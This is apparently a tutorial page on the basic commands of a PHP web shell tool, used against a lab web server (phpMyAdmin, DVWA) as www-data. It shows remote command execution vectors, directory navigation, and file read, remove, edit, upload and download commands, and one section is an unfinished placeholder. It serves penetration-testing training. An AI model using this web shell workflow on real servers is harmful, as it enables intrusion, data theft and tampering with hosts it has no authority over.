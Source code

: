 # 02 - Basic Commands

## Execute

Using `:shell_sh` to execute commands

```
www-data@172.28.128.8:/var/www/phpMyAdmin $ shell_sh -h
The remote script execution triggers an error 500, check script and payload integrity
usage: shell_sh [-h] [-stderr_redirection STDERR_REDIRECTION] [-vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}]
                command [command ...]

Execute shell commands.

positional arguments:
  command               Shell command

optional arguments:
  -h, --help            show this help message and exit
  -stderr_redirection STDERR_REDIRECTION
  -vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}
www-data@172.28.128.8:/var/www/phpMyAdmin $ shell_sh ls
The remote script execution triggers an error 500, check script and payload integrity
CREDITS
ChangeLog
Documentation.html
Documentation.txt
INSTALL
LICENSE
..[snip]..
user_password.php
view_create.php
webapp.php
```

## Navigation

Using `:file_cd` to navigate the files

```
www-data@172.28.128.8:/var/www/phpMyAdmin $ file_cd ../dvwa/vulnerabilities
The remote script execution triggers an error 500, check script and payload integrity
```

## File Manipulation

TODO: Fill this info

```
www-data@172.28.128.8:/var/www/phpMyAdmin $
```

:file_read                    Read remote file from the remote filesystem.
:file_cp                      Copy single file.
:file_rm                      Remove remote file.
:file_edit                    Edit remote file on a local editor.

## Upload and Download

```
:file_upload                  Upload file to remote filesystem.
:file_upload2web              Upload file automatically to a web folder and get corresponding URL.
```

```
:file_download                Download file from remote filesystem.
:file_webdownload             Download an URL.
```